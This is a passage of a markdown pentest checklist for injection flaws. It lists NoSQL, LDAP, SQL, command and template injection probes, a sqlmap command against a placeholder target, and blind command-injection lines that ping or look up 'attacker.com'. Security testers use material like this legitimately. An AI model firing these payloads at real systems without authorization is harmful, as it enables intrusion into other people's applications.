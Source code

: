 - [ ] **NoSQL injection**
  ```json
  {"username": {"$ne": null}, "password": {"$ne": null}}
  ```

- [ ] **LDAP injection**
  ```
  *)(uid=*))(|(uid=*
  ```

## 🎯 Phase 3: Vulnerability Testing

### 💉 Injection Vulnerabilities

#### SQL Injection Testing
- [ ] **Manual testing**
  - [ ] Single quote test: `'`
  - [ ] Double quote test: `"`
  - [ ] Numeric test: `1'`
  - [ ] Boolean test: `1' AND '1'='1`

- [ ] **Automated testing**
  ```bash
  sqlmap -u "https://target.com/page.php?id=1" --batch --random-agent
  ```

- [ ] **Advanced techniques**
  - [ ] Time-based blind injection
  - [ ] Boolean-based blind injection
  - [ ] Union-based injection
  - [ ] Error-based injection

#### Command Injection Testing
- [ ] **Basic payloads**
  ```bash
  ; ls
  | whoami
  & ping -c 4 127.0.0.1
  `id`
  $(whoami)
  ```

- [ ] **Blind command injection**
  ```bash
  ; sleep 10
  | ping -c 10 attacker.com
  & nslookup attacker.com
  ```

#### Template Injection Testing
- [ ] **Server-side template injection**
  ```
  {{7*7}}
  ${7*7}
  <%= 7*7 %>
  ${{7*7}}
  ```
